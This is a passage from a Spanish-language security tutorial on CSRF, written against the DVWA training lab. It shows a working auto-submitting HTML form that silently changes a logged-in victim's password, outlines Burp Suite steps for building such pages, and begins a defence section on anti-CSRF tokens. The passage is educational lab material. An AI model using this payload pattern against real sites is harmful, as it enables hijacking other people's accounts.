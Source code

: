 El atacante crea un HTML malicioso:

```html
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://localhost/dvwa/vulnerabilities/csrf/" method="POST">
      <input type="hidden" name="password_new" value="hacked123" />
      <input type="hidden" name="password_conf" value="hacked123" />
    </form>
  </body>
</html>
```

✅ Lo hospeda en su servidor.

✅ Víctima logueada en DVWA visita esa página.

✅ DVWA cambia la contraseña del usuario a "hacked123" **sin preguntar nada**.

---

✅ Resultado:

✅ Ataque invisible.

✅ No necesita la interacción del usuario más allá de **abrir la página maliciosa**.

---

### ✅ 8️⃣ Automatizar ataque con Burp Suite

✅ Burp Suite te ayuda a:

- Interceptar la petición legítima (cambio de contraseña).
- Repetirla (con **Repeater**).
- Modificar parámetros (con **Intruder**).
- Usar **CSRF PoC Generator** (algunas versiones lo incluyen).

---

✅ **Paso básico con Burp Suite:**

1️⃣ Intercepta el formulario real.

2️⃣ Copia la petición POST.

3️⃣ Modifica el contenido (nueva contraseña).

4️⃣ Genera el HTML malicioso para engañar a la víctima.

---

### ✅ 9️⃣ Cómo defenderse contra CSRF

✅ 💠 Usar **tokens anti-CSRF**:

- Incluye un **valor secreto único** en el formulario.
- El servidor verifica que el token sea válido.

✅ Ejemplo PHP:
